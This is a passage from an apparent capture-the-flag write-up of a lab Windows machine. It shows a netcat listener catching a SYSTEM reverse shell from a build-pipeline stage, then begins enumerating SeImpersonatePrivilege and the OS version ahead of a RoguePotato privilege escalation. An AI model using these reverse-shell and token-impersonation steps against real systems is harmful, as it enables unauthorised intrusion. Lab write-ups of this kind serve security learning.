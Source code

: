 The job will hang when it gets to the stage shellz:

![image-20200823065409269](https://0xdfimages.gitlab.io/img/image-20200823065409269.png)

Over at my `nc` listener, I have a shell as system:

```

root@kali# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:54104.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

W:\agents\agent11\_work\13\s>whoami
nt authority\system

```

## Beyond Root - RoguePotato

### Enumeration

In my first shell, the IIS user has `SeImpersonatePrivilege`:

```

c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

Up until Server 2019, this would be a great scenario for [JuicyPotato](https://github.com/decoder-it/juicy-potato). But Microsoft made changes that broke JuicyPotato.

This box is running Windows Server 2019:

```

c:\windows\system32\inetsrv>systeminfo
                                                                                             
Host Name:                 WORKER                                                                                                                                                          
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
...[snip]...

```
